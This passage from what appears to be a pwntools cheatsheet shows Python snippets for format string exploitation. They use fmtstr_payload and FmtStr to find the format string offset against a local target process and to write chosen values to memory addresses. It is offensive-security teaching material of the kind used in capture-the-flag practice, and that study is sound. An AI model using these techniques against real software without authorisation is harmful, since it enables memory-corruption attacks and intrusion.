 ```py
# if data is written by the vulnerable function at the start of
# your payload, you can specify the number of bytes written
payload = fmtstr_payload(offset, writes, numbwritten=8)
p.writeline(payload)
```

```py
p = process('./target')

# you will need to define a function that sends your payload to
# the target, and returns the value output by the target
def send_data(payload):
    p.sendline(payload)
    return p.readall()

# automatic calculation of the format string offset
fmt_str = FmtStr(execute_fmt=send_data)
offset = fmt_str.offset
```

```py
# you can also use the `FmtStr` object to perform your writes
fmt_str = FmtStr(execute_fmt=send_data)
fmt_str.write(0x40010, 0xdeadbeef)  # write 0xdeadbeef at 0x40010
fmt_str.write(0x40018, 0xcafebabe)  # write 0xcafebabe at 0x40018
fmt_str.execute_writes()
```

[^ Back to top](#file-pwntools-cheatsheet-md)
